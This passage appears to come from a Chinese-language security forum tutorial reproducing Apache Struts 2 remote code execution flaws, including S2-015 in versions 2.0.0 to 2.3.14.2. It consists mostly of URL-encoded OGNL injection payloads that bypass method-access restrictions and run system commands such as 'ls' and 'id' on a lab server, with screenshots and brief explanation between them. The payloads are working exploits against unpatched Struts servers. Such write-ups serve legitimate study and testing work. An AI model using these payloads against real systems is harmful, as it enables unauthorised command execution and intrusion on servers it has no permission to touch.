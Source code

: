 ![image-20210709105256449](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7ccb291d2732ac27b0c4f33a5b153def10fe0943.png)

```php
http://192.168.9.234:8080/l ink.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27ls%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

![image-20210709110403375](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-71009be2e8e23a1409a0a20155d685f8bf574dd7.png)

### 4.8 S2-015远程代码执行漏洞

#### 漏洞原理

##### Apache Struts 2是用于开发JavaEE Web应用程序的开源Web应用框架。Apache Struts 2.0.0至2.3.14.2版本中存在远程命令执行漏洞。远程攻击者可借助带有‘${}’和‘%{}’序列值（可导致判断OGNL代码两次）的请求，利用该漏洞执行任意OGNL代码。

#### 影响版本

```php
Struts 2.0.0 - 2.3.14.2
```

#### 启动漏洞

![image-20210709111207072](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b12ba4ec38819952dc0c68399e33c69aa57c5705.png)

![image-20210709111228374](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0384357a244a61985e701e4c7e5bc9dcbaa10414.png)

##### 验证漏洞是否存在poc-1（这里是经过url编码的）

```php
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream())%2C%23q%7D.action
```

![image-20210709140430412](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4c55eae8a9b8a8b84e8a3ad7552e13ee0f1926ea.png)

```php
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredFiel
d%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.comm
ons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%2C%23q%7D.action
```

![image-20210709140550955](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cd8bc028003ddf9907de37650734101d7c9685f2.png)

